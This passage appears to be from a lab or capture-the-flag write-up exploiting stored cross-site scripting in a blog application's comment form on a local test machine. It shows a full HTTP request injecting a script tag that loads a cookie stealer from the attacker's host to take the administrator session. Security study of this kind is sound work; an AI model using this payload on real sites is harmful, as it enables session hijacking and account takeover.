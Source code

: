 ![](/assets/img/content/0d25d544740940f69addac7579a96e0e.png)
*Analysis of the "render_with_comments()" function*

The "get_comments()" function simply requests the "comments" table for its data, given a post identifier, and returns it back to the user. The only validation in place is in the "post_id" parameter that checks if the input is an integer. No other validation is in place to prevent Cross-Site Scripting.

![](/assets/img/content/a08fd1817a1c4280b955cd51eb669977.png)
*Analysis of the "get_comments()" function*

Since my goal was to get administrative access to the application, I injected a simple script tag that would load an external Javascript file from my server, with the purpose stealing the administrator cookie.

```
POST /post_comment.php?id=1 HTTP/1.1
Host: 192.168.56.118
Content-Type: application/x-www-form-urlencoded
Content-Length: 295
Connection: close

title=test&author=test&text=%3Cscript+src%3D%22http%3A%2F%2F192.168.56.1%2Fcookie-stealer.js%22%3E%3C%2Fscript%3E&submit=Submit+Query
```

The "cookie-stealer.js" file purpose is, like the name suggests, to steal the current user session cookie, when he/she accesses the webpage with the malicious comment.

![](/assets/img/content/2a45b52e43bf47ef9672153798df4482.png)
*Javascript cookie stealer*
